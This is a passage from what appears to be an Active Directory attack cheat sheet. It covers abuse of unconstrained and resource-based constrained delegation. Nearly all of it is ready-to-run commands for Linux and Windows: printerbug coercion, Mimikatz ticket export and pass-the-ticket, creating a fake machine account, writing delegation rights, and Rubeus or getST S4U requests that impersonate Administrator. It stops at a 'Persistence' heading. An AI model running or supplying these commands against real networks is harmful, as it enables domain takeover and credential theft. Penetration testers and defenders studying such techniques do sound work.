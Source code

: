 #### Linux:

```bash
# Monitor for tickets
python printerbug.py domain.com/username:password@TARGET_IP DC_IP
# Extract TGT from memory
```

#### Windows:

```powershell
# PowerView
Get-DomainComputer -Unconstrained

# Mimikatz
sekurlsa::tickets /export
kerberos::ptt ticket.kirbi
```

### 3. Resource-Based Constrained Delegation (RBCD)

#### Linux:

```bash
# Add computer account
addcomputer.py -computer-name 'FAKE$' -computer-pass 'Password123!' domain.com/username:password -dc-ip DC_IP

# Set delegation
rbcd.py -delegate-from 'FAKE$' -delegate-to 'TARGET$' -action write domain.com/username:password -dc-ip DC_IP

# Get ticket
getST.py -spn 'cifs/TARGET.domain.com' -impersonate Administrator domain.com/'FAKE$':'Password123!' -dc-ip DC_IP
```

#### Windows:

```powershell
# PowerMad + PowerView
New-MachineAccount -MachineAccount FAKE -Password $(ConvertTo-SecureString 'Password123!' -AsPlainText -Force)
Set-DomainRBCD -Identity TARGET$ -DelegateFrom FAKE$

# Rubeus
.\Rubeus.exe s4u /user:FAKE$ /rc4:HASH /impersonateuser:Administrator /msdsspn:cifs/TARGET.domain.com /ptt
```

---

## 🔐 Persistence
